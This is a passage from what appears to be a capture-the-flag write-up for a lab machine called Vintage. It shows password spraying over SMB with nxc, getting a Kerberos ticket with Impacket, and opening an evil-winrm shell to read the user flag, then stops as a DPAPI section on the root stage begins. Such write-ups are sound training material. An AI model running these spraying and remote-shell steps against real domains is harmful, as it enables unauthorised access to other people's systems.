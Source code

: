 After a lot of enumeration and nothing, let's try to spray the password 

### Finnaly, PSRemote

```bash
nxc smb dc01.vintage.htb -u users.txt -p 'REDACTED' -k --continue-on-success

SMB         dc01.vintage.htb 445    dc01             [+] vintage.htb\C.Neri:REDACTED
```
```bash
getTGT.py -dc-ip "vintage.htb" "vintage.htb"/"C.Neri":"REDACTED"
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Saving ticket in C.Neri.ccache

export KRB5CCNAME=C.Neri.ccache

evil-winrm -i dc01.vintage.htb -r VINTAGE.HTB -u C.Neri

Evil-WinRM shell v3.6

Warning: User is not needed for Kerberos auth. Ticket will be used

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\C.Neri\Documents> cat ../Desktop/user.txt
```
<img src="../assets/gif/rick.gif" alt="yay" width="550">

## Root

### DPAPI 

After a lotttttt of enumerations, i searched through DPAPI (Data Protection API)
